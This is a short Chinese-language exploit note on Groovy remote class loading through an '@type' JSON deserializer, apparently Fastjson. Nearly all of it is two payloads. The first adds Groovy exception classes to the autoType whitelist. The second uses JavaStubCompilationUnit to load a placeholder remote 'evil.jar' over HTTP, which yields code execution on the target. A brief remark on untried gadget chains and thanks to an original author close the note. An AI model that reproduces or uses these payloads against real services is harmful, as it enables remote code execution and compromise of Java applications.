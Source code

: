 
groovy 远程类加载 

加白名单
```json
{
  "@type":"java.lang.Exception",
  "@type":"org.codehaus.groovy.control.CompilationFailedException",
  "unit":{
  }
```

远程类加载
```json
{
  "@type":"org.codehaus.groovy.control.ProcessingUnit",
  "@type":"org.codehaus.groovy.tools.javac.JavaStubCompilationUnit",
  "config":{
    "@type": "org.codehaus.groovy.control.CompilerConfiguration",
    "classpathList":["http://.x.x.x:8080/evil.jar"]
  },
  "gcl":null,
  "destDir": "/tmp"
}
```

其他PPT中的组合链感觉要求过高暂未尝试，按需不定期更新
感谢作者的精彩分享
